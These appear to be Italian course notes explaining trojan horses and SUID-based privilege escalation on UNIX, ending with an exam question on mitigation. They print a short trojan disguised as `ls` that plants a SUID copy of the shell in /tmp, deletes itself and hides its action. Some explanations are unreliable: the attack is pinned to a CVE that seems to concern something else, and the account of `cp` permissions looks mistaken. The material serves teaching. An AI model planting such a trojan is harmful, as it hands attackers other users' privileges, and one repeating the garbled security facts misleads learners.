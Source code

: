# Trojan horse e privilege escalation

Il **trojan horse** è uno dei tanti esempi di codice malevolo, ci sono poi ad esempio **logic bomb** e le **backdoor**, ed ancora altri esempi ancora di malware.

Premesse per la comprensione:
Ogni file UNIX ha un proprietario ed un gruppo (vedi ACL: access control list).
Normalmente un programma riceve i permessi dell'utente che lo lancia (`whoami`). Il programma `passwd` ad esempio appartiene all'utente `root`. Affinché l'utente possa cambiare la propria password il bit **SUID** (Set owner User ID up on execution) viene impostato ed **il programma viene lanciato con i permessi dell'owner**.

Pur trattandosi di modifiche ai permessi, un'operazione parecchio delicata, la questione non rappresenta un immediato campanello d'allarme in quanto `passwd` regolamenta il flusso delle operazioni che possono essere fatte sul file delle password, limitando l'operato dell'utente al semplice cambiare la propria password.

Il bit **SUID** nasce quindi per motivi funzionali ed è importante dal punto di vista della sicurezza visto che **permette l'aumento di privilegi**.
Un aumento non voluto dei privilegi porta all'attacco di **[privilege escalation](https://en.wikipedia.org/wiki/Privilege_escalation)**

Questo bit può essere utilizzato per costruire un trojan.

## Analisi di un trojan

Impostiamo i privilegi di esecuzione (`777`) allo script a seguire e lo eseguiamo:

```bash
#!/bin/sh ls
cp /bin/sh /tmp/.xxsh #copio l'eseguibile della shell su tmp, dove posso scrivere senza bisogno di privilegi superuser
chmod u+s,o+x /tmp/.xxsh #cambio i permessi alla copia (non potrei farlo sul file originale) In questo caso sto impostando il bit di SUID a 1, così posso avere una shell come super user. Da inoltre permessi di esecuzione a tutti.
rm ./ls #autodistruzione del trojan
ls $* # lancio ls di sistema così da mascherare il comportamento del mio script
```

**Criticità: `cp` deve scegliere che permessi dare al nuovo file copiato**, ovvero deve fare una scelta di policy.

I possibili scenari sono:

- dare i permessi del file originale
- dare i permessi della directory dove si sta copiando
- dare i permessi dell'utente che esegue la copia

Il modo in cui le varie routine danno i permessi è un punto critico per le policy.

Ad oggi `cp` **da alla copia i permessi della cartella di destinazione**, motivo per cui il trojan sopra riportato non è più utilizzabile.

La vulnerabilità che permette questo attacco di privilege escalation è la **[CVE-2015-1328](https://ubuntu.com/security/CVE-2015-1328)**.
È possibile riprodurre l'attacco su qualunque sistema operativo che presenti il modulo del filesystem alla versione riportata, come ad esempio Ubuntu 14.04.

Le prime due linee dello script vanno sotto il nome di **"carico" (payload)** e costituiscono il punto saliente dell'attacco. L'intrusione effettiva si avrà poi quando l'attaccante, dopo aver fatto eseguire lo script alla vittima ignara, si ritroverà nella directory /tmp (condivisa tra i vari utenti del sistema) un eseguibile di shell **con privilegi della vittima**.

Quando l'attaccante richiama la shell copiata se l'attacco è andato a buon fine come output del comando `whoami` si ha il nome della vittima, altrimenti verrà visualizzato il proprio nome utente.

**Nota bene**: questo attacco non consente in automatico di avere privilegi di amministratore ma fornisce gli stessi privilegi della vittima, dando quindi all'attaccante:

- la capacità di leggere e scrivere nello spazio della vittima
- la capacità di eseguire altri programmi (a meno di controlli e limitazioni di più altro livello forniti dal programma stesso) con i privilegi della vittima

Se la vittima è amministratore ovviamente il danno ha un'entità maggiore.

[Una spiegazione in dettaglio dell'attacco è qui fornita](https://www.dmi.unict.it/giamp/hardening/19edition/trojan.html)

------

**Note storiche**

In passato il `.` (directory corrente) faceva parte della variabile `PATH`, era per altro all'inizio e quindi aveva **priorità maggiore**.
Questo perché quasi tutti i programmi venivano tenuti e lasciati a partire dalla home.

Ad oggi il `.` nel `PATH` è riconosciuto come una vulnerabilità e quindi è stato rimosso.

------

:pencil: **Domanda d'esame**: consideriamo un trojan scaricato dalla rete, come possiamo mitigarne gli effetti?
**Esempio di risposta**: potremmo innanzitutto limitare i permessi della directory dei download e mantenere lì i file scaricati, togliere dal `PATH` la directory in modo tale che per lo script sia impossibile eseguire comandi, o meglio ancora, rimuovere eventuali privilegi di esecuzione. Questo potrebbe essere una buona policy di sicurezza.